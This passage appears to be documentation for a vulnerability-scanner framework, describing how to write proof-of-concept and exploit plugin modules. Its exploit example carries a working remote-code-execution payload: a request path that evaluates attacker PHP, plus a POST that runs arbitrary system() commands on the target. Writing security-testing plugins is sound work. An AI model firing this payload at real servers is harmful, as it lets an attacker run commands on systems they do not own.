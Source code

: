 ```python
# You need to import the required packages yourself
import XXX

# The function is defined as run(url, timeout)
def run(url, timeout):
    """
     Parameter Description
     @param url: target address
     @param timeout: timeout time
     @return result: a list including all returned results
     """
     result = {
         'name': 'Vulnerability name',
         'vulnerable': False, # Vulnerability verification success indicator
         'method': None, #Vulnerability request protocol
         'url': None, # Verify target address
         'payload': None # Verify payload
     }
    """
    Customize the code segment, assign value and return the result according to the written logic.
    """
    return result
```



## EXP module writing specifications

For exploit.

Add python module files to exp directory.

- File name specification: `asset name_vulnerability name.py`
- Execute the import command and write the exp index file: `python CVS.py --add-exp {module name, must be consistent with the module file}`

```python
# 需要自行导入所需要包
import XXX

# 函数定义为 run(url, cmd)
def run(url, cmd):
    """
     Parameter Description
     @param url: target address
     @param cmd: Specify command execution. Even if the command cannot be executed directly, formal parameters need to be defined.
     @return {bool, string}: Execution success identifier and return result, used for command echo. If there is no echo, you can explain it by yourself; command echo return result needs to use "{{{{{echo}}}}}" Format package used to identify command echo results from responses
    """
    payload = r'/index.php?s=a/b/c/${@print(eval($_POST[cmd]))}'
    payload = urllib.parse.urljoin(url, payload)
    response = requests.post(payload, data={"cmd": "echo '{{{{{';system('" + str(cmd) + "');echo '}}}}}';"})
    if response.status_code == 200:
        return True, response.text
    else:
        return False, "Exploit failed"
```
